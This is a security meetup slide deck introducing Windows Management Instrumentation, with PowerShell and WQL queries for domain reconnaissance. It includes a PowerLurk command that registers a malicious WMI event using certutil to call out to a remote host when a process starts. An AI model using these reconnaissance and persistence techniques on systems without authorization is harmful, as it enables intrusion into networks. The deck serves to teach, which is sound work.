

### Understanding Windows Management Instrumentation(WMI)

</br></br>

#### null/OWASP/G4H BLR Meet 
#### Bharath Kumar
10th March 2018


### Agenda

<small>
- Why bother understanding WMI?
- What is WMI?
- WMI overview
- Using WMI via Powershell
- WQL
- Useful WMI queries
- Offensive tools using WMI
- Moving Forward

</small>


### Why bother learning WMI?

- WMI is powerful and it is present in all versions of Windows starting from Windows 2000
- WMI can be leveraged for system/domain administration, offensive and defensive purposes
- It's fun to learn WMI


<small>
The infamous Stuxnet malware used WMI for infection
</small>
</br></br>
<small>
https://www.esetnod32.ru/company/viruslab/analytics/doc/Stuxnet_Under_the_Microscope.pdf
</small>


<small>
APT 29 has been using WMI for infection and persistence
</small>
</br></br>
<small>
https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/
</small>


<small>
WMI has been used by adversaries in the recent hacks at Winter Olympics
</small>
</br></br>
<small>
https://www.cymulate.com/hacking-the-2018-winter-olympics/
</small>


### What is WMI?

> Windows Management Instrumentation is a core component of Windows that can be used to manage both local and remote computers

<small>
https://technet.microsoft.com/en-us/library/ee692772.aspx
</small>


### Web-Based Enterprise Management (WBEM)

- Data collection and management standards in distributed computing environment
- WBEM answers the "what" should this data exchange and remote management look like


### Common Information Model (CIM)

- CIM is an open standard that defines "how" managed elements in a distributed environment are represented as a common set of objects and relationships between them
- Object Oriented paradigm


### Windows Management Instrumentation(WMI)

> WMI is the Microsoft implementation of CIM for the Windows platform.


### CIM/WMI

- Representation if anything withing a computer system
    - Namespaces
    - Classes
    - Objects
    - Methods
    - Properties
    - Events
    - Event consumers


### Namespaces

- Collection of classes
- Nested namespaces can exist
- In WMI, every namespace exists under "ROOT" namespace
- Default namespace in WMI is "ROOT\cimv2"


### Classes

- Class is a blueprint for an object
- Classes are abstract
- Classes define methods and properties
- In context of WMI, any Windows component can be a class like process, service, user and file


### Objects

- object refers to a particular instance of a class
- In WMI context, not all classes may have objects
- For example, `win32_fan` is a WMI class that represents properties of fan device on computer. This class might not have an object instance on VirtualBox guests 


<small>
https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
</small>


### WMI using Powershell

- **WMI cmdlets**

```
Get-Command -Noun wmi*
```


<small>

- WMI cmdlets operate over DCOM protocol on TCP port 135
https://msdn.microsoft.com/en-us/library/ee309379(v=vs.85).aspx

</small>


- **CIM cmdlets**

```
Get-Command -Noun cmi*
```


<small>
- CIM cmdlets are available in > PS v3 (Above Windows 7)
- Operates over WS-MAN protocol over TCP 5985/5986. Can be forced to use DCOM
https://blogs.msdn.microsoft.com/powershell/2012/08/24/introduction-to-cim-cmdlets/

</small>


### List all name spaces

```
Get-WMIObject -Namespace root -Class "__Namespace" | select name
```


### Get user account details

```
Get-WMIObject Win32_useraccount -Filter "Name like '%Arvi%'"
```


### Windows Management Instrumentation Query Language (WQL)

- Microsoft's implementation of the CIM Query Language (CQL)
- subset of ANSI standard SQL

```
SELECT * FROM WIN32_Process where Name like '%Notepad%'"
```


### Get user account details using WQL

```
gwmi -query "SELECT * FROM WIN32_useraccount WHERE Name like '%Arvi%'"
```


### List of processes running on remote machine

```
gwmi win32_process -ComputerName <remote-hostname> -Credential DOMAIN\Username
```


### List of all users on the domain

```
gwmi win32_useraccount -ComputerName <remote-hostname> -Credential DOMAIN\Username
```


### What does WMI provide for attackers?

1. Information gathering
2. Lateral movement
3. Command/Script execution
4. Storage
5. Persistence


### List all the groups in domain

```
gwmi win32_group -ComputerName <remote-hostname> -Credential DOMAIN\Username | select name,domain 
```


### Find the Anti Virus product name

```
gwmi -Namespace root\SecurityCenter2 -Class AntiVirusProduct | select displayname
```


### Stealing session details/keys


### Finding current Domain Controller

```
gwmi -Namespace root\directory\ldap -Class ds_computer | where {$_.ds.UserAccessControl -eq 532480} | select -ExpandProperty ds_cn

```



### Finding domain that remote machine is part of

```
gwmi -Namespace root\directory\ldap -Class ds_computer -Computername <remote-hostname> -Credential <domain>\<username> | select ds_dc
``` 


### Interacting with WMI using Impacket

**wmiexec.py**


**wmiquery.py**


### WMI events

**PowerLurk**

```

Register-MaliciousWmiEvent -EventName alert-on-calc -PermanentCommand "certutil.exe -urlcache -split -f http://192.168.56.1:8081/calc-started" -Trigger ProcessStart -ProcessName calc.exe
```


<small>
https://pentestarmoury.com/2016/07/13/151/
</small>


### WMI consumers


<small>
- `ActiveScriptEventConsumer` & `CommandLineEventConsumer` are very useful in red team engagements
- `LogFileEventConsumer` & `NTEventLogConsumer` are very useful for blue teams or admins

</small>


### What's not covered?

- WMI events in-depth
- WMI for persistence & backdoor
- WMI for storage


### Lab setup 


### Setting up Active Directory

- Setting up AD is very easy
- It can be done in under 5 powershell commands

<small>
https://blogs.technet.microsoft.com/uktechnet/2016/06/08/setting-up-active-directory-via-powershell/
</small>


### Automating lab setup

- You can use provisioning software like `vagrant`, `terraform` to automate Active Directory lab setup
- A reference lab setup can be found in the following link

<small>
https://github.com/StefanScherer/adfs2
</small>


### Active Directory(AD) on cloud

- Active Directory environment can be setup painlessly(subjective) on cloud services like AWS, Azure
- Instructions to set up AD in the cloud: TBD


## References

<small>
- https://technet.microsoft.com/en-us/library/cc181125.aspx
- https://www.youtube.com/watch?v=WwI-Rilu2N4
- https://www.youtube.com/watch?v=hGYag0huELE&t=603s
- https://www.sans.org/summit-archives/file/summit_archive_1492184420.pdf
- https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
- https://pentestarmoury.com/2016/07/13/151/
- https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf

</small>


## Talk content

https://github.com/yamakira/understanding-wmi


## About me

- Bharath Kumar 
- Security Engineer @[Appsecco](https://appseccoc.com)
- Offensive Security Certified Professional(OSCP)
- https://disruptivelabs.in
- [@yamakira_](https://twitter.com/yamakira_)